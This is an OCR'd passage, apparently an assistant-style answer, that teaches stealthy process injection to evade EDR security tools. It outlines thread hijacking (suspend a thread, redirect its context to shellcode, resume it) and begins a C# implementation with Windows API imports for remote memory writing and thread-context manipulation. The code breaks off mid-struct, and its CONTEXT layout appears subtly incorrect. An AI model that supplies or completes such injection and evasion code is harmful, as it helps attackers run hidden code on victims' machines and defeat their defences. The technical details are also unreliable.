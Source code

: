 Injecting code into processes in a stealthy manner, especially to evade detection mechanisms like EDR (Endpoint Detection and Response) systems, requires sophisticated techniques. Below are some methods that can be used to achieve this:

### 1. Thread Hijacking

Thread hijacking involves suspending a thread in the target process, modifying its context to point to your shellcode, and then resuming it. This technique is stealthier than `CreateRemoteThread`.

#### Steps:

1. **Identify a thread to hijack in the target process.**
2. **Suspend the thread.**
3. **Modify the thread context to point to your shellcode.**
4. **Resume the thread.**

#### Code Example in C#

Here’s a C# example of thread hijacking:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, uint dwSize, out IntPtr lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

    [DllImport("kernel32.dll")]
    static extern uint SuspendThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern int ResumeThread(IntPtr hThread);

    [DllImport("kernel32.dll")]
    static extern bool GetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [DllImport("kernel32.dll")]
    static extern bool SetThreadContext(IntPtr hThread, ref CONTEXT lpContext);

    [StructLayout(LayoutKind.Sequential)]
    public struct CONTEXT
    {
        public uint ContextFlags; // set this to CONTEXT_FULL (0x10007) for x64
        public ulong Dr0;
        public ulong Dr1;
        public ulong Dr2;
        public ulong Dr3;
```